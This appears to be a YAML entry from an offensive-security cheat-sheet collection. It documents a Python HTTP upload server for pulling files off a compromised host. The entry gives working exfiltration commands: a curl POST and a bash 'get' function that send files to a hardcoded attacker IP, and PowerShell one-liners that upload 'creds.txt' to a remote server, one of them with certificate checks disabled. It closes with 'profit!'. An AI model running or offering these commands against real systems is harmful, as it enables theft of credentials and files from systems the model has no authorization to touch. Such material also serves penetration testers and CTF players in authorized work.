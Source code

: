 ```yaml
---
functions:
  file-transfer:
    - description: This python script will handle file uploads and supports POST requests
      code: |
        usage: http-server.py [-h] [-p PORT] [-l LISTEN] [-n]

        A Better Python3 HTTP Server

        optional arguments:
          -h, --help            show this help message and exit
          -p PORT, --port PORT  the port for the http service to listen on
          -l LISTEN, --listen LISTEN
                                the interface to bind to
          -n, --no-ssl          do not serve https / ssl

        UPLOAD:
          Start the Server - python3 http-server.py
          Pick your method:

          - - - curl - - - 
          curl -k -i -X POST -F 'filename=@<filename>' -F 'name=file' http(s)://<ip>:<port>
          
          TIP - cp paste this function and run "get <file>"

        get(){
        file=$1
        ip="10.10.14.23"
        port="8000"
        #echo $file $ip $port
        output=$(curl -k -i -X POST -F filename=@"$file" -F name=file "http://$ip:$port")
        if [[ "$output" == *"success"* ]]; then
          echo "[+] Uploaded! --> $file"
        else
          echo "[-] Upload Failed! --> $file $ip:$port"
        fi
        }
          
          - - - powershell - - - 
          powershell -c (New-Object System.Net.WebClient).UploadFile('http://<ip>:<port>', 'creds.txt')
          powershell -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true};(New-Object System.Net.WebClient).UploadFile('https://10.0.0.4:8000', 'creds.txt')
          (3) manually browsing to the ip and port
          (4) profit!
resources: |
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/http-server.py

---
```

